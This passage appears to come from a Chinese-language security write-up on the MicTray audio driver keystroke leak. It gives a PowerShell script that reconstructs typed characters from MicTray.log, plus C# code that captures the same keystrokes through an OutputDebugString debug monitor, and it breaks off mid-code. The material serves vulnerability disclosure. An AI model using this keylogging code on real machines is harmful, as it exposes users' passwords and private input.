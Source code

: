
```
$filename = "c:userspublicMicTray.log"
[System.IO.FileStream]   $fs = [System.IO.File]::Open(
      $filename, 
      [System.IO.FileMode]::Open, 
      [System.IO.FileAccess]::Read, 
      [System.IO.FileShare]::ReadWrite)
[System.IO.StreamReader] $fr = [System.IO.StreamReader]::new(
      $fs, 
      [Text.UTF8Encoding]::UNICODE)
$el = 0
while($el -lt 2) `{`
   $line = $fr.ReadLine()
   # handle broken newlines in log...
   if([string]::IsNullOrEmpty($line)) `{`
      $el++
   `}` else `{`
      $el=0
   `}`
   $mc = [regex]::Match($line, 
         "MicTray64.exe.*flags (0x0[A-Fa-f0-9]?).*vk (0x[A-Fa-f0-9]+)$")
   $r = $mc.Groups[2].Value
   if(-Not [string]::IsNullOrEmpty($r)) `{`
      $i = [convert]::ToInt32($r, 16)
      $c = [convert]::ToChar($i)
      if($i -lt 0x20 -or $i -gt 0x7E) `{` $c = '.' `}`
      write-host -NoNewLine $("`{`0`}`" -f $c)
   `}`
`}`
```

然而，如果没有记录日志文件，只要按照Microsoft的DbMon Debug Monitor方法捕获传递给OutputDebugString的字符串同样也可获得键盘记录信息：



```
namespace mod0_dbgview
`{`
    class Program
    `{`
        public static void Main(string[] args)
        `{`
            DebugMonitor.Start();
            DebugMonitor.OnOutputDebugString += new
                  OnOutputDebugStringHandler(OnOutputDebugString);
            Console.WriteLine("Press 'Enter' to exit.");
            Console.ReadLine();
            DebugMonitor.Stop();
        `}`
        // version 1.0.0.46
        private static void OnOutputDebugString(int pid, string text)
        `{`
            char sep = ' ';
            char nl = 'n';
            text = text.TrimEnd(nl);
            string[] items = text.Split(sep);
            if (items[7].Equals("Mic"))
            `{`
                int c_int = Convert.ToInt32(items[17], 16);
                if (c_int == 0xd)
                `{`
                    Console.WriteLine();
                `}`
                else if (Convert.ToInt32(items[13], 16) == 0x00)
                    Console.Write("`{`0`}`", (char)(c_int &amp; 0xff));
```